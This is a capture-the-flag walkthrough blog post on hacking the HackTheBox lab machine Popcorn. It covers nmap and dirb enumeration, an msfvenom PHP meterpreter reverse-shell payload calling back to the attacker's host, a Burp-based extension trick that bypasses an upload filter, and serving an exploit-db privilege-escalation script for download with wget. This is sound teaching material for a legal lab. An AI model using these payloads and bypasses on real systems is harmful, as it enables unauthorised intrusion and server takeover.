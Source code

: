 ```yaml
---
layout: post
comments: true
title: "How to hack a site through an uploader."
author: Gerh
featured-img: uploaderPopcorn
image: https://hackingprofessional.github.io/HTB/assets/img/posts/uploaderPopcorn.jpg
description: Learn pentesting web from 0 with HackTheBox (Popcorn).
categories: [Enumeration, Pentesting WEB, Escalation Privilege, Uploader]
---
```


Hello Hackers!! 
In this day, we will learn how to have total control over a web server, all thanks to a badly configured uploader.  
Before starting I want to clarify that all my published content is done for educational, informative and ethical purposes.
I am not responsible for the misuse they may give you.  

## With this tutorial you will learn:
  - how to intercept requests with burpsuite.
  - how to bypass file upload restrictions using burp suite.
  - how to perform a simple port scan with Nmap.
  - how to get a meterpreter session with Metasploit.
  - how to perform a directory discovery with dirb.
  - How to perform an exploit search with Searchsploit.

To carry out this demonstration, we will perform a penetration test on a vulnerable machine called **Popcorn** published on the [HackTheBox](https://www.hackthebox.eu/home/machines/profile/4) platform.
In any process to hack or have total control over a server in an unauthorized manner must start with a system enumeration.
For this we will perform a simple scan with Nmap, in the following way.  
```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2734]
╰─[:)] # nmap -T4 -Pn -sV -F -sC -oN Popcorn.nmap 10.10.10.6
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-01 02:06 -05
Nmap scan report for 10.10.10.6
Host is up (0.20s latency).
Not shown: 98 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
With the results of the Nmap, we can identify that our victim has port 22 (SSH) and port 80 (HTTP) open.
Knowing port 80 is open in the victim’s network we preferred to explore his IP in the browser but didn’t get any remarkable clue for the next step.  

![Port80Popcorn](https://hackingprofessional.github.io/HTB/assets/img/posts/Port80Popcorn.png "Initial page running on port 80.")  

The next step is to perform a directory discovery, for this I will use DIRB.  
DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the response.
[Kali Linux](https://tools.kali.org/web-applications/dirb)

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2735]
╰─[:)] # dirb http://10.10.10.6 /usr/share/dirb/wordlists/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Apr  1 02:06:49 2019
URL_BASE: http://10.10.10.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

---- Scanning URL: http://10.10.10.6/ ----
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)                                                                                                     
+ http://10.10.10.6/index (CODE:200|SIZE:177)                                                                                                        
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)                                                                                                   
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)                                                                                                
+ http://10.10.10.6/test (CODE:200|SIZE:47328)                                                                                                       
==> DIRECTORY: http://10.10.10.6/torrent/

---- Entering directory: http://10.10.10.6/torrent/ ----
==> DIRECTORY: http://10.10.10.6/torrent/admin/                                                                                                      
==> DIRECTORY: http://10.10.10.6/torrent/css/                                                                                                        
==> DIRECTORY: http://10.10.10.6/torrent/database/                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/health/                                                                                                     
==> DIRECTORY: http://10.10.10.6/torrent/images/                                                                                                                                                                                              
==> DIRECTORY: http://10.10.10.6/torrent/js/                                                                                                         
==> DIRECTORY: http://10.10.10.6/torrent/lib/                                                                                                                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/readme/                                                                                                                                                                                              
==> DIRECTORY: http://10.10.10.6/torrent/templates/                                                                                                  
==> DIRECTORY: http://10.10.10.6/torrent/torrents/                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/upload/                                                                                                     
==> DIRECTORY: http://10.10.10.6/torrent/users/ 
```

Knowing the above, we decided to explore http://10.10.10.6/torrent/ through browser URL and what we see is a Webpage shown below. 
After looking at the page for some clue, we saw that we need to register on this site first.  

![Port80PopcornTorrent](https://hackingprofessional.github.io/HTB/assets/img/posts/Port80PopcornTorrent.png "Navigating in the directory /torrent") 

To continue, we will create a user in the information system by filling out the registration form.

![Port80PopcornCreateUser](https://hackingprofessional.github.io/HTB/assets/img/posts/Port80PopcornCreateUser.png "Creating a user in the information system.") 

After successfully registering on the website; We managed to identify an uploader where apparently the correct use of this, is for the uploading of utorrent's and hosting them on the site.
The next step is to upload any uttorrent and then edit it, in this way we can find another uploader which will facilitate the upload of our malicious file.

![PopcornEditTorrent](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornEditTorrent.png "Uploading uttorrent") 

![PopcornEditTorrent2](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornEditTorrent2.png "Editing uttorrent uploaded") 

Next, we are going to generate with Metasploit an exploit that allows us to connect through a reverse shell.  

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2738]
╰─[:)] # msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.4 lport=6969 -f raw > shell.php  
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1111 bytes
```

After generating our payload, we try to upload it to the server.
To avoid file filtering by extension that has the web server, which does not allow the upload of a file with PHP extension; what we must do is concatenate another extension that if valid on the name of our payload as follows:

![PopcornUploadShell](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornUploadShell.png "How to bypass file upload restrictions.") 

We are going to start a burpsuite instance, and then we intercept the request to manipulate the extension of our malicious file.

![PopcornBurpsuite](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornBurpsuite.png "How to bypass file upload restrictions using burp suite.") 

Ok, we have our file uploaded to the victim web server.  

![PopcornFileUploaded](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornFileUploaded.png "File with PHP extension uploaded.") 

Now what we must do is locate this file and access it from a browser, in order to obtain RCE on the machine.
Among the results of the previous scan with DIRB, there was a route where the files would appear to be uploaded.
So next we decided to explore http://10.10.10.6/torrent/upload/ through browser URL and what we see is a Webpage shown below.  

![PopcornFileUploaded2](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornFileUploaded2.png "File with PHP extension uploaded.")  

We see that our file has been successfully uploaded. 
We click on our file, but first we must start the metasploit and tell it that we are going to wait for a connection.

![Popcornwww-data](https://hackingprofessional.github.io/HTB/assets/img/posts/Popcornwww-data.png "RCE on Popcorn HackTheBox") 

Ready friends!  
We can now execute commands on our server with the www-data user, thanks to our meterpreter session that we managed to obtain.

## Privilege Escalation  
Now that we have access to the server we are going to enumerate a bit.
Initially I managed to identify something interesting on the desktop.

![PopcornLsR](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornLsR.png "Recursive list of files.") 

Apparently there is a folder called cache that contains a file with interesting name, we will perform a search for exploits with searchsploit indicating the name of the mentioned file.

![PopcornSearchsploit](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornSearchsploit.png "Using Searchsploit") 

Interestingly, we find 3 results, and apparently 2 of them are used for the Privilege Escalation.
At this moment, what we have to do is copy the exploit from the searchsploit directory, and to avoid later errors we use **dos2unix** to run the exploit without problems on our victim machine.
On the other hand,  In order to upload the script to our victim, I will mount an HTTP server that hosts the script that will allow us to scale privileges.; later from the victim machine I will download the file using WGET.
We go to the folder that contains our bash script and execute the following to mount an HTTP server with Python.

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2762]
╰─[:)] # cp /usr/share/exploitdb/exploits/linux/local/14339.sh ./                  
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2763]
╰─[:)] # ls
14339.sh  Popcorn.nmap  shell.php.png
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2764]
╰─[:)] # mv 14339.sh privesc.sh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2765]
╰─[:)] # dos2unix privesc.sh 
dos2unix: converting file privesc.sh to Unix format...
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2766]
╰─[:)] # python3 -m http.server                                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

After having published the exploit on our HTTP server, we downloaded it to our victim machine (Popcorn) and proceed with the execution of this as indicated below.

<script id="asciicast-238104" src="https://asciinema.org/a/238104.js" async></script>

And with this we conclude the tutorial of today.


